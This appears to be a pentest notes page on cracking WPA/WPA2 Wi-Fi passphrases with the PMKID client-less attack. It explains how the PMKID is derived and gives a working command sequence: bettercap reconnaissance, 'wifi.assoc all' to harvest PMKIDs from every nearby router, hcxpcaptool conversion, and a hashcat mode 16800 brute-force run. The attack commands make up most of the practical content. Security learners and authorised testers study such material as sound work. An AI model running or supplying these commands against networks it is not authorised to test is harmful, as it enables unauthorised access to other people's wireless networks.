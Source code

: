 # Bettercap

TODO: Provide a usage coverage for wireless attacks using bettercap

New method 2019: PMKID, client-less and only ONE packet! No de-auth required. 4-way handshake that can be captured and cracked. When a client connects to the AP, there is a 4-way handshake where the pre-shared key (PSK) is transferred from the client machine to the AP. We can capture that PSK hash and then use a dictionary or brute-force attack against it. This can be time-consuming and is not always successful. Success is dependent upon the wordlist you use and the time you have to crack it. Once you have the hash of the PSK captured, you don't need to be connected to the AP. With enough resources, you can brute-force any PSK.

It turns out that a lot of modern routers append an optional field at the end of the first EAPOL frame sent by the AP itself when someone is associating, the so called Robust Security Network, which includes something called PMKID.

the PMKID is derived by using data which is known to us:
PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)

Since the “PMK Name” string is constant, we know both the BSSID of the AP and the station and the PMK is the same one obtained from a full 4-way handshake, this is all hashcat needs in order to crack the PSK and recover the passphrase!

This can be done in bettercap or possibly other tools

```
$ sudo bettercap -iface wlan0
wifi.recon on
set wifi.show.sort clients desc
set ticker.commands 'clear; wifi.show'
ticker on
```

Now you'll be able to see a bunch of SSIDs that are being broadcast. 

Pick a channel of an SSID you want to attack:

```
wifi.recon.channel 1
```

Send association request to every AP and see who'll respond with useful information:

```
wifi.assoc all
```

All nearby vulnerable routers will start sending their PMKID, which bettercap will dump to the usual pcap file

PMKID Cracking

Convert the PMKID data to a hash format for hashcap with `hcxpcaptool`:

```
hcxpcaptool -z bettercap-wifi-handshakes.pmkid /root/bettercap-wifi-handshakes.pcap
```

Now crack using hashcap 16800:

```
hashcat -m 16800 -a 3 -w 3 bettercap-wifi-handshakes.pmkid '?d?d?d?d?d?d?d?d'
```


https://www.evilsocket.net/2019/02/13/Pwning-WiFi-networks-with-bettercap-and-the-PMKID-client-less-attack/#.XGUsG5SMxYE.reddit
https://hashcat.net/forum/thread-7717.html